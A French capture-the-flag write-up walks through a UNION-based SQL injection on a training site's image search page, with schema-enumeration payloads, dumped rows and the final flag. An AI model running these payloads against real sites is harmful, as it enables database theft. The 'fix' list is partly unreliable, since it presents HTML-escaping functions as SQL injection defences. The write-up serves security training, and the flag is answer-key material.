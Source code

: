 # image injection SQL
Recupere des datas grace a une injection SQL

## Comment obtenir le flag
* Se rendre a `ip`/?page=searchimg
* Si on submit vide, on obtient:
- *You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*
* En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
- On tombe sur : `First name: Flag` / `Surname : GetThe`
- Notre bible pour les requetes : *http://www.sqlinjection.net/column-names/*

- `TRUE` permet de valider l'expression précédente.
- `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

* `TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
```
schema: Member_images
table: list_images
```

* `TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
```
Table: list_images
Column: id
Column: url
Column: title
Column: comment
```

* Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
- `TRUE UNION SELECT title, comment FROM Member_images.list_images`
```
id: 5
url: borntosec.ddns.net/images.png
title: Hack me ?
comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

* le décryptage de *1928e8083cf461a51303633093573c46* en md5 = *albatroz*
* passé en sha256 donne le flag : *f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188*

## Fix possible
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu

## Explications
Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu.
Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.

